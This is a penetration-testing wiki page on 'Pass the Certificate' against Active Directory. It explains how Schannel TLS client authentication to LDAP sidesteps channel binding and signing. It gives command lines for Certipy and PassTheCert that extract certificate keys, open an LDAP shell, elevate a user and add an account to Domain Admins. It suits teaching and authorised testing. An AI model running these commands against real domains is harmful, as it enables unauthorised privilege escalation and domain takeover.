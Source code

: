 # Pass The Certificate

{% hint style="warning" %}
This technique extends the notion of [Pass the Certificate](../kerberos/pass-the-certificate.md), thus dubbed by [@_nwodtuhs](https://twitter.com/_nwodtuhs/) in his Twitter [thread on AD CS and PKINIT](https://twitter.com/_nwodtuhs/status/1451510341041594377). Even if both techniques share the same name and the same concept, the authentication method is different.
{% endhint %}

## Theory

Sometimes, Domain Controllers do not support [PKINIT](../../kerberos/pass-the-certificate.md). This can be because their certificates do not have the `Smart Card Logon` EKU. Most of the time, domain controllers return `KDC_ERR_PADATA_TYPE_NOSUPP` error when the EKU is missing. Fortunately, several protocols — including LDAP — support Schannel, thus authentication through TLS. As the term "schannel authentication" is derived from the [Schannel SSP (Security Service Provider)](https://learn.microsoft.com/en-us/windows-server/security/tls/tls-ssl-schannel-ssp-overview) which is the Microsoft SSL/TLS implementation in Windows, it is important to note that schannel authentication is a SSL/TLS client authentication.

{% hint style="success" %}
* Schannel authentication relies on TLS so it is, by design, not subject to channel binding, as the authentication is borne by TLS itself.
* Schannel is not subject to LDAP signing either as the `bind` is performed after a StartTLS command when used on the LDAP TCP port.
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
Tools like [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) (python version) and [Certipy](https://github.com/ly4k/Certipy) can be used to authenticate with the certificate via Schannel against LDAP.
```bash
# If you use Certipy to retrieve certificates, you can extract key and cert from the pfx by using:
$ certipy cert -pfx user.pfx -nokey -out user.crt
$ certipy cert -pfx user.pfx -nocert -out user.key

# elevate a user (it assumes that the domain account for which the certificate was issued, holds privileges to elevate user)
passthecert.py -action modify_user -crt user.crt -key user.key -domain domain.local -dc-ip 10.0.0.1 -target user_sam -elevate

# spawn a LDAP shell
passthecert.py -action ldap-shell -crt user.crt -key user.key -domain domain.local -dc-ip 10.0.0.1
certipy auth -pfx -dc-ip 10.0.0.1 -ldap-shell
```
{% endtab %}

{% tab title="Windows" %}
Pass the cert technique can be done with[PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) (C# version).

```bash
# Add simple_user to Domain Admins (it assumes that the domain account for which the certificate was issued, holds privileges to add user to this group)
.\PassTheCert.exe --server fqdn.domain.local --cert-path Z:\cert.pfx --add-account-to-group --target "CN=Domain Admins,CN=Users,DC=domain,DC=local" --account "CN=simple_user,CN=Users,DC=domain,DC=local"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html" %}
{% embed url="https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf" %}
{% embed url="https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d" %}
